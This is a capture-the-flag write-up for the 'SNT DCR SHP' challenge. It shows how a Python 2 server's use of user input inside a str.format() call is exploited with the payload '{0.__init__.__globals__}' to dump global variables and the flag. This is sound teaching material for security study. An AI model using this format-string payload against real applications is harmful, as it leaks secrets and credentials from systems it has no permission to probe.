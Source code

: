 
# SNT DCR SHP

> Santa has opened a new decoration shop in place of the corner store. Will it be able to dominate the market or will it fall victim to hackers?
>
> Remote server: nc challs.xmas.htsp.ro 13001

![Screenshot](screenshot.png)

# Analysis

First start by using netcat to connect to the given address:

```
$ nc challs.xmas.htsp.ro 13001
           ___
         /`   `'.
        /   _..---;
        |  /__..._/  .--.-.
        |.'  e e | ___\_|/____
       (_)'--.o.--|    | |    |
      .-( `-' = `-|____| |____|
     /  (         |____   ____|
     |   (        |_   | |  __|
     |    '-.--';/'/__ | | (  `|
     |      '.   \    )"";--`\ /
     \        ;   |--'    `;.-'
     |`-.__ ..-'--'`;..--'`

SANTA's Decoration shop yay!
1. Add new decoration to the shopping list
2. View your shopping list
3. Ask Santa for a suggestion
Your choice:
```

Selecting `1` gives you a prompt:

```
Your choice: 1
What item do you like to buy? Cookies
How many of those? 10
Thank you, your items will be added
```

Then picking `2` will list out your items:

```
Your choice: 2
10 x ... Cookies
```

Lastly picking `3` will give you the Python code for the server:

```
Santa shows you how his shop works to prove that he doesn't scam you!
<contents of files/server.py here>
```

Firstly, you'll see the flag is sitting around as a global variable:

```
from secret import flag
```

You'll notice what appears to be a red herring:

```
sys.stdout.write ("What item do you like to buy? ")
sys.stdout.flush ()
type = sys.stdin.readline ().strip ()

sys.stdout.write ("How many of those? ")
sys.stdout.flush ()
quantity = sys.stdin.readline ().strip () # Too lazy to sanitize this
```

The real problem is a `format()` string exploit:

```
def print_decoration(self):
    print ('{0.quantity} x ... '+ self.type).format(self)
```

Note that it's giving us control over the format string. This means we can
craft malicious things that inspect `self` which actually gives us access
to much more than just the `type` and `quantity` member variables. We can
add to our list an item like:

```
{0.__init__.__globals__}
```

This only works for Python 2.x which is what the server is running. Originally
I tried to solve this using Python 3.x locally and had a hard time. The quantity
you provide doesn't matter, once you enter the payload you pick option `2` and
list out your items:

```
1 x ... {'Decoration': <class '__main__.Decoration'>, 'leak_source_code': <function leak_source_code at 0x7fbf2a40f6e0>, '__builtins__': <module '__builtin__' (built-in)>, 'items': [<__main__.Decoration object at 0x7fbf2a409e90>], '__file__': '/chall/server.py', '__package__': None, 'sys': <module 'sys' (built-in)>, 'add_item': <function add_item at 0x7fbf2a40f848>, 'flag': 'X-MAS{C_15n7_th3_0nly_vuln3rabl3_l4nngu4g3_t0_f0rm47_57r1ng5}', 'menu': <function menu at 0x7fbf2a40f668>, '__name__': '__main__', 'show_items': <function show_items at 0x7fbf2a40f8c0>, 'choice': '2', 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>, '__doc__': None}
```
